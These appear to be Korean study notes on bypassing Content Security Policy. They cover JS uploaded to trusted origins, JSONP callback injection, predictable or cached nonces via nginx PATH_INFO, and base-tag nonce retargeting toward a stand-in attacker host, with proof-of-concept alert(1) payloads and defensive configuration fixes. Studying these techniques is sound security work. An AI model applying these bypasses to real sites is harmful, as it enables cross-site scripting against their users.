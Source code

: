 ```yaml
---
title: "[2025-08-02] CSP Bypass"
excerpt: "CSP Bypass"

categories:
  - Justice
tags:
  - [CSP]

permalink: /Justice/[2025-08-02] CSP Bypass/

toc: true
toc_sticky: true

date: 2025-08-02
last_modified_at: 2025-08-05
---
```


## 🦥 본문

## CSP 우회

### 신뢰하는 도메인에 업로드

출처에 스크립트와 같은 자원을 업로드한 뒤 다운로드 경로로 웹 페이지에 자원을 포함

- EX) 공격자가 `/download_file.php?id=177742` 에 자신이 만든 JS 파일을 업로드한 경우에 `self` 정책에 위배되지 않아서 CSP 우회 성공
    
    ```html
     <meta http-equiv="Content-Security-Policy" content="script-src 'self'">
    ...
    <h1>검색 결과: <script src="/download_file.php?id=177742"></script></h1>
    ```
    

### JSONP API

CSP에서 허용한 출처가 JSONP API를 제공하는 경우 callback 파라미터에 스크립트를 삽입하여 공격

- JSONP API : JS 코드처럼 생긴 데이터를 `<script>` 태그를 통해 받아오는 방식. 즉, 서로 다른 도메인 간에 데이터를 주고받을 때 사용하는 기술
    - EX)
        1. 클라이언트에서 showUser 요청
        
        ```html
        <script src="https://api.example.com/user?id=123&callback=showUser"></script>
        ```
        
        1. 서버에서 응답
        
        ```html
        showUser({
          "name": "Alice",
          "age": 25
        });
        ```
        
        1. `showUser()` 함수가 클라이언트에 정의돼 있다면 서버에서 넘긴 데이터 실행
- EX) `*.google.com` 에서 온 출처만 허용한다고 가정. 구글에서 JSONP API를 지원하는 서버를 찾아 `callback`에 원하는 스크립트를 삽입
    
    ```html
    https://accounts.google.com/o/oauth2/revoke?callback=alert(1);
    
    <meta http-equiv="Content-Security-Policy" content="script-src 'https://*.google.com/'">
    ...
    <script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1);"></script>
    <!-- JSONP API 결과:
    // API callback
    alert(1);({
      "error": {
        "code": 400,
        "message": "Invalid JSONP callback name: 'alert(1)'; only alphabet, number, '_', '$', '.', '[' and ']' are allowed.",
        "status": "INVALID_ARGUMENT"
      }
    }
    );
    -->
    ```
    

### nonce

- 외부 JS 로드
    
    ```html
    <script src= ".."></script>
    ```
    
    - 외부 JS는 정적 파일이라고 전제하여 nonce 검사를 안함
    - `script-src` 만 검사
    - 해당 주소에서 동적으로 응답하는 경우 취약점 발생

- `nonce` 값이 예측 가능한 값인 경우에 공격자가 유추하여 스크립트 삽입 가능.
    - 예측 가능한 알고리즘 X
    - 현재 시각 기반의 `rand()`, `srand()` 등을 사용하면 예측 가능
    - 의사 난수 생성기 CSPRNG 사용 권장
- `nonce` 값을 담고 있는 HTTP 헤더 또는 `<meta>` 태그 **캐싱** 주의
    - PHP, CGI 계열 스크립팅을 사용하는 경우 `/index.php/style.css` 처럼 뒤에 추가적인 경로를 붙여 접근이 가능
    - 확장자 기반으로 캐시 여부를 판단하는 경우 `.css` 는 일반적으로 정적 파일이므로 캐시에 저장 가능.
        - `.css`처럼 보이는 PHP 동적 콘텐츠인 경우가 발생
        - 캐시 만료 전까지 요청마다 같은 `nonce` 가 돌아오므로 `nonce`를 획득 가능 → DOM XSS 가능
    - 동작 흐름
        1. `index.php` 는 동적으로 페이지를 생성하는 서버의 PHP 코드. 응답에 매번 다른 CSP `nonce` 값을 넣어줌
        2. /index.php/style.css 로 URL 변조 : 정적 파일 .css 처럼 보이게 조작. 
            - 뒤에 있는 URL에서 `/index.php`만 보고 `index.php`를 실행.  `/style.css`는 PHP 코드 내부에서 무시되거나 추가 정보로 전달
        3.  요청의 `.css` 확장자를 본 브라우저는 응답 캐싱
        4. 캐싱 만료 전까지는 같은 `nonce` 가 계속 사용 
            - 해당 CSS URL을 요청하면 같은 `nonce` 값을 받음. 이 값을 script에 넣으면 CSP 우회 가능
    - EX) snippet/fastcgi-php.conf 의 일부 중 아래와 같은 설정을 하는 경우
        
        ```html
         # regex to split $uri to $fastcgi_script_name and $fastcgi_path
        fastcgi_split_path_info ^(.+\.php)(/.+)$;
        -> .php 까지만 실행 대상 파일로 인식. 그 뒤는 추가 정보 (path info)로 처리
        -> 즉 PHP 실행 
        
        # Check that the PHP script exists before passing it
        try_files $fastcgi_script_name =404;
        
        # Bypass the fact that try_files resets $fastcgi_path_info
        # see: http://trac.nginx.org/nginx/ticket/321
        set $path_info $fastcgi_path_info;
        fastcgi_param PATH_INFO $path_info;
        
        fastcgi_index index.php;
        include fastcgi.conf;
        ```
        
        - `index.php/style.css` 를 보냈을 때 아래의 응답이 캐싱이 되어 고정된 `nonce` 값 노출
            
            ```html
            <meta http-equiv="Content-Security-Policy" content="script-src 'nonce-ABC123'">
            ```
            
        - 공격자가 다음과 같이 사용 가능
            
            ```html
            <script nonce="ABC123">alert(1);</script> 
            ```
            
    - PATH_INFO 기능을 사용하지 않을 거면 아래와 같이 설정
        - 끝 부분이 `.php` 일 때만 FastCGI로 넘어가게 수정
        - 또한 `a/b.php/c/d.php` 같이 `.php` 중복 사용을 대비하여 `fastcgi-php.conf` 스니펫을 사용하지 않고 아래와 같이 Nginx 설정 변경
            - 스니펫 : 자주 쓰는 설정 내용을 따로 뽑아서 저장해둔 조각
            
            ```html
            location ~ \.php$ {         
                try_files $uri =404;
                fastcgi_index index.php;
                include fastcgi.conf;  -> fastcgi.conf에는 PATH_INFO가 없음
                fastcgi_pass unix:/run/php/php7.2-fpm.sock;
            }
            ```
            
            - `~ \.php$` 를 통해 `.php`로 끝나는 URL만 처리
            - `fastcgi-php.conf` 스니펫이 아닌 `fastcgi.conf` 을 include하여 사용

### base-uri 미지정

`<base>` 태그는 경로가 해석되는 기본 값 변경. 

- Nonce Retargeting : nonce 가 유효한 스크립트를 공격자의 주소로 유도해서 실행시키는 공격
    - EX) 공격자가`<base href="https://malice.test/">` 를 삽입 하는 경우
        
        → 기존의 `src`가 포함된 스크립트는  nonce도 이미 존재하므로 문제 없이 스크립트 로딩이 공격자의 서버로 바뀌어 실행 
        

`base-uri` 지시문을 임의로 지정하지 않는 이상 `default` 초기 값이 존재 하지 않아 `base-uri`를 `none`으로 지정하여 막아야 한다. 

```html
Content-Security-Policy: base-uri 'none'
```